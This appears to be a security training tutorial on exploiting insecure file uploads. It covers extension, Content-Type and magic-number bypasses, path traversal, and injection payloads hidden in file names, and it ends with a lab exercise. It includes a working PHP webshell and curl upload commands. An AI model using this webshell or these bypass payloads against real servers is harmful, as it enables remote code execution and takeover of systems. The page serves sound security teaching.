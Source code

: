 # Finding and exploiting file upload vulnerabilities

## General methodology for identifying insecure file uploads

1. Locate the file upload capability in the application, confirming that the required permissions for uploading files are present.
1. Attempt to discover where the files are stored and if they can be accessed after being uploaded.
1. Attempt to upload an unexpected file circumventing file extension validations.
1. Attempt to upload an unexpected file by setting a custom value for the `Content-Type` header.
1. Attempt to upload an unexpected file by manipulating the magic number.
1. Attempt to find a method to rename an uploaded file in order to change its extension.
1. Attempt to upload an unexpected file with a crafted file name to leverage path traversal, SQL injection, XSS, or command injection vulnerabilities.
1. Attempt to upload server configuration files.
1. Attempt to cause information disclosure to reveal any sensitive data that may lead to alternative attack vectors.
1. Attempt to upload an executable file that will run malicious code when accidentally opened by a victim.

## Exploiting insecure file uploads

### Bypassing file extensions checks

* Using uppercase letters (e.g., `.pHp`, `.pHP5` or `.ASP`).
* Adding a valid extension before the execution extension (e.g., `image.png.php` or `image.png.php5`).
* Adding special characters at the end (e.g., `file.php%20`, `file.php%0d%0a` or `file.php/`).
* Tricking the server-side extension parser by using techniques such as inserting junk data (null bytes) between extensions (e.g., `image.php%00.png` or `image.php\x00.png`).
* Adding another layer of extensions (e.g., `image.png.jpg.php` or `image.php%00.png%00.jpg`).
* Puting the execution extension before the valid extension, which can be useful in case of server misconfigurations (e.g., `image.php.png`).
* Using NTFS `Alternate Data Stream (ADS)` in Windows inserting a colon character `:` after a forbidden extension and before a permitted one (e.g., `image.asp:.jpg`).

#### Sending a file with a double extension using `curl`

* The following `curl` command can be used to send a malicious `php` file with a double extension to the `/upload` endpoint:

  ```bash
  curl -F "file=@malicious.php;filename=image.png.php" https://domain.tbl/upload
  ```
  
  * `file` is the parameter where the server expects the file itself.
  * `@malicious.php` is the local file with harmful code.

### Bypassing `Content-Type` header checks

* Malicious users can manipulate the `Content-Type` header in HTTP requests to bypass validation that relies on this header to determine the file type.
* The `Content-Type` header in an upload HTTP request can be modified to represent a any file type allowed by the application, regardless of whether the file is harmful (e.g., setting `image/jpeg` for an executable script).

#### Tampering the `Content-Type` header using `curl`

* The following `curl` command can be used to send a malicious PHP file while spoofing the `Content-Type` header to appear as a `jpeg` file:

  ```bash
  curl -F "file=@malicious.php;type=image/jpeg" https://domain.tbl/upload
  ```

### Bypassing magic number checks

* The magic number is a unique sequence of bytes located at the beginning of a file's content that is used to identify the file type, according to a [list of file signatures][1]. These bytes serve as a signature for the file, allowing the operating system or applications to determine its type, even without relying on the file extension:
  * `jpeg (jpg)` files start with `FF D8 FF` (corresponding to `ÿØÿÛ`).
  * `png` files start with `89 50 4E 47 0D 0A 1A 0A` (corresponding to `‰PNG␍␊␚␊`).
  * `pdf` files start with `25 50 44 46 2D` (corresponding to `%PDF-`).
  * `zip` files start with `50 4B 03 04` (corresponding to `PK␃␄`).
* Malicious users can easily prepend a valid magic number to malicious files, making them seem legitimate. For instance, adding the `%PDF-2.0` signature at the start of a webshell file can trick the system into thinking it's a PDF file.
  > :older_man: `webshell` is the common name given to a script used by attackers that, when uploaded to a web server, allows them to execute system commands and take control of the server as if they had direct shell access, but all remotely via the web.
* The following command execution is a demonstrative example of how it can be performed.
  1. Start by showing the content of the `webshell.php` file:

      ```bash
      :~$ cat webshell.php 
      <?php system($_GET["cmd"]); ?>
      ```

  1. Then, determine the file type by using the `file` system command:

      ```bash
      :~$ file webshell.php
      webshell.php: PHP script text, ASCII text
      ```

  1. Proceed to add the appropriate magic number for a PDF file (i.e., `%PDF-2.0`) at the beginning of the file:

      ```bash
      :~$ echo "%PDF-2.0$(cat webshell.php)" > webshell.php
      ```

  1. Display the content of the `webshell.php` file once more to verify the change:

      ```bash
      :~$ cat webshell.php
      %PDF-2.0<?php system($_GET["cmd"]); ?>
      ```

  1. Show the hex dump of the file to check the initial bytes, ensuring they correspond to `25 50 44 46 2D` as stated in the [list of file signatures][1]:

      ```bash
      :~$ xxd webshell.php 
      00000000: 2550 4446 2d32 2e30 3c3f 7068 7020 7379  %PDF-2.0<?php sy
      00000010: 7374 656d 2824 5f47 4554 5b22 636d 6422  stem($_GET["cmd"
      00000020: 5d29 3b20 3f3e 0a                        ]); ?>.
      ```
  
  1. Determine the file type again using the `file` command, and notice it has changed to PDF:

      ```bash
      :~$ file webshell.php
      webshell.php: PDF document, version 2.0
      ```

### Using crafted file names to bypass checks or exploit existing vulnerabilities

* File name limits can be exploited by using long file names to truncate safe extensions. For instance, in Linux, where the maximum file name length is 255 bytes, a name like `aaaa.php.png` (with `aaaa` being a long string) could potentially bypass checks in specific situations.
* File names can also be used to exploit vulnerabilities related to how the application processes and handles the file name. For example, a file name like `sleep(20)-- -.jpg` could trigger a SQL injection, `<svg onload=alert("XSS")>` might lead to XSS, and `; sleep 20;` might result in command injection.

#### Exploiting path traversal vulnerabilities

* Path traversal is the process of manipulating file paths to access unintended locations outside the designated directory.
* Malicious users include sequences like `../` in file names to traverse directories and store files in unintended locations. For instance, a file name such as `../../../../var/www/html/index.php` would place the file in the web root, potentially replacing the actual main content of the web application, which could then be accessed and executed via URL.

### Uploading server configuration files

* Depending on the web server hosting the application, a malicious user could upload configuration files such as `.htaccess` for Apache or `web.config` for IIS, potentially altering server behavior.

### Gathering sensitive information

* Discovering the upload folder or storage location and gaining access to all files, retrieving all the data stored.
* Uploading a file with a file name matching an already existing file or folder.
* Uploading the same file multiple times simultaneously and with the exact file name.
* Uploading a file in Windows with a file name containing invalid characters such as `|`, `<`, `>`, `*`, `?` or `"`.
* Uploading a file in Windows using reserved names such as `AUX`, `COM1`, `COM2`, `COM3`, `COM4`, `COM5`, `COM6`, `COM7`, `COM8`, `COM9`, `CON`, `LPT1`, `LPT2`, `LPT3`, `LPT4`, `LPT5`, `LPT6`, `LPT7`, `LPT8`, `LPT9`, `NUL`, or `PRN`.

### Causing Denial of Service (DoS)

* If a web application does not limit file sizes, a malicious user can upload large files, leading to resource exhaustion.
* A similar behavior can be achieved by uploading or downloading multiple files without any rate limiting in place.

## Exercise to practice :writing_hand:

* The following file upload form is vulnerable to `Remote Code Execution (RCE)`, meaning it's possible to upload a file that can be used to execute arbitrary code on the server.
* When accessing the code editor via the `Open Code Editor` button, a command line is available along with a file named `webshell.php`, located in `/home/coder/app/webshell.php`, that could allow arbitrary code execution on the server if it gets uploaded.
* The goal here is to use the command line provided in the code editor to upload the `webshell.php` file. However, there is a weak security measure in place that restricts file uploads to `.jpg`, `.jpeg`, and `.png` extensions, which needs to be bypassed to upload the `webshell.php` file.
* After circumventing the security measures and successfully uploading the file, use it to execute the `validate` command to complete the exercise:

  ```bash
  curl $APP_URL/uploads/<webshell_file>?cmd=validate
  ```

  * Besides `validate`, it will be possible to execute any supported command such as `whoami`, `ls` or `pwd` just like in a regular terminal.
* Will you be able to bypass the security measure and run the `validate` command through the `webshell.php` file to complete the exercise?
  @@ExerciseBox@@

[1]: https://en.wikipedia.org/wiki/List_of_file_signatures
